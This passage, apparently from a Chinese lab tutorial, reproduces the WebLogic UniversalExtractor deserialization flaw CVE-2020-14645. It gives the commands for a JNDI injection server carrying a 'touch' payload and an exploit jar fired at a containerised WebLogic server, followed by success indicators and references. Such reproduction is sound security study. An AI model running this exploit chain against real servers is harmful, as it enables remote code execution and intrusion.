 

启动 JNDI 服务。进入容器【ubuntu-JNDI1106】，依次输入命令

- 

```
source /etc/profile
```

- 

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C touch /tmp/CVE110667 -A 172.17.0.3
```



可知适用于 jdk1.8 的 JNDI 访问链接为【ldap://172.17.0.3:1389/usns1q】，如下图。

![图片](WebLogic-UniversalExtractor反序列化漏洞(CVE-2020-14645).assets/1627364326196764.jpg)



发起攻击。进入容器【ubuntu-gongji1106】，依次输入命令

- 

```
source /etc/profile
```

- 

```
java -jar CVE-2020-14645.jar 172.17.0.3:1389/usns1q http://172.17.0.4:7001
```

“172.17.0.3:1389/usns1q”部分为JNDI链接，攻击成功会返回weblogic版本，如下图。

![图片](WebLogic-UniversalExtractor反序列化漏洞(CVE-2020-14645).assets/1627364326586981.jpg)



攻击成功后，容器【ubuntu-JNDI1106】会显示传输信息，如下图。

![图片](WebLogic-UniversalExtractor反序列化漏洞(CVE-2020-14645).assets/1627364326916071.jpg)



攻击成功后，weblogic服务器会生成【CVE】文件，如下图。

![图片](WebLogic-UniversalExtractor反序列化漏洞(CVE-2020-14645).assets/1627364327148609.jpg)



1.7 参考资料



- https://www.chainnews.com/articles/884170141841.htm
- https://www.freebuf.com/vuls/251540.html
- https://github.com/QAX-A-Team/WeblogicEnvironment
- https://paper.seebug.org/1012/#weblogic
- https://cloud.tencent.com/developer/article/1608010
- https://badcode.cc/2018/05/20/WebLogic-%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/
- https://paper.seebug.org/1280/#cve-2020-14645
- https://www.anquanke.com/post/id/210724